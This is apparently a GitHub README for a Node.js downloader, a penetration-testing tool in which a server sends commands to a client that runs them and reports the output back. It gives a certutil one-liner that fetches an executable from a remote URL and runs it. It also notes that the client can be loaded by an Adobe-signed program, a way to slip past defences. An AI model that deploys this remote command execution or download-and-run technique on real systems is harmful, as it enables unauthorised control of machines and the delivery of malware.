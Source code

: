 # NodeJS-Downloader
An example of a downloader written in NodeJS.

Author:3gstudent

#### Usage:

1. Download the NodeJS:

https://nodejs.org/en/download/

You just need node.exe in the file.

2. Set the command sent to the client:

Edit the Server.js

eg.

`var command = 'certutil -urlcache -split -f https://github.com/3gstudent/test/raw/master/putty.exe c:\\a.exe&&c:\\a.exe';`

3. Start the server

```
node.exe Server.js
```

When you use a browser to access it, it will return 404.

4. Start the client

```
node.exe Client.js
```

It will connect to the server and get the command, then execute the command and send the result again.

Client.js can be loaded by a program with a digital signature of Adobe Systems Incorporated.

![Alt text](https://github.com/3gstudent/NodeJS-Downloader/blob/master/1.png?raw=true)

Reference:

https://bbs.pediy.com/thread-249573.htm


More details:

《渗透测试中的Node.js》[Coming soon]
